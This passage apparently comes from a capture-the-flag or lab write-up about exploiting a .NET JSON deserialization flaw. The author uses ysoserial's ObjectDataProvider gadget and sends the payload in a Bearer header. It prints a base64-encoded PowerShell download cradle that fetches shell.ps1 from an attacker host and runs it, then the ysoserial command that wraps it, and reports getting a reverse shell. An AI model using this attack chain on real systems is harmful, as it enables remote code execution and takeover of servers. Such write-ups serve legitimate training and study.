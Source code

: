 So I tried different gadgets, and eventually the `ObjectDataProvider` one worked. In my testing, it threw a lot of Powershell errors, so I thought it would be better if we used a Powershell shell instead.

First, let's get the encoded Powershell command:

{% code overflow="wrap" %}
```
$ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.42/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0; echo

SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=
```
{% endcode %}

Afterwards, we can pass this into `ysoserial.exe`.&#x20;

{% code overflow="wrap" %}
```
ysoserial.exe -g ObjectDataProvider -f json.net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```
{% endcode %}

Then, we can send the encoded payload as the value of the `Bearer` header.&#x20;

<figure><img src="../../../.gitbook/assets/image (1362).png" alt=""><figcaption></figcaption></figure>

This would still return 500, but we would get a GET request for `shell.ps1` on a HTTP server and a reverse shell on our listener port!

<figure><img src="../../../.gitbook/assets/image (2038).png" alt=""><figcaption></figcaption></figure>
